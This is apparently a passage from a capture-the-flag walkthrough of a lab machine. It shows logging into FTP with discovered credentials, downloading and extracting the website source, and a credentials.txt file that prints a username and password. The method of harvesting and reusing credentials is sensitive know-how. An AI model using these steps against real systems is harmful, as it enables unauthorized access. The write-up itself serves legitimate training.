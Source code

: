 ### FTP access

As the FTP port is open we can try to access it with the credentials.

Let's launch [FileZilla][fz] to download the files.

It's also possible to use the CLI:

```
$ ftp 10.10.10.187
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:cyfun): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-x---    2 0        111          4096 Dec 03  2019 .
drwxr-x---    2 0        111          4096 Dec 03  2019 ..
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
```

`dump.sql` contains the table of images displayed on the home page, nothing
interesting except the db name `admirerdb` and knowing it's served on localhost.

Let's extract the website source:

```
$ mkdir website && tar xaf html.tar.gz -C website
```

There is a `w4ld0s_s3cr3t_d1r` fodler which is the same as `admin-dir` and
contains the same files except that there is one entry more in `credentials.txt`.

```
$ ls -l website
total 28
drwxr-x--- 6 cyfun cyfun 4096 juin   6  2019 assets
drwxr-x--- 4 cyfun cyfun 4096 d├⌐c.   2  2019 images
-rw-r----- 1 cyfun cyfun 4613 d├⌐c.   3  2019 index.php
-rw-r----- 1 cyfun cyfun  134 d├⌐c.   1  2019 robots.txt
drwxr-x--- 2 cyfun cyfun 4096 d├⌐c.   2  2019 utility-scripts
drwxr-x--- 2 cyfun cyfun 4096 d├⌐c.   2  2019 w4ld0s_s3cr3t_d1r
```

`credentials.txt`

```ini
[Bank Account]
waldo.11
Ezy]m27}OREc$
```

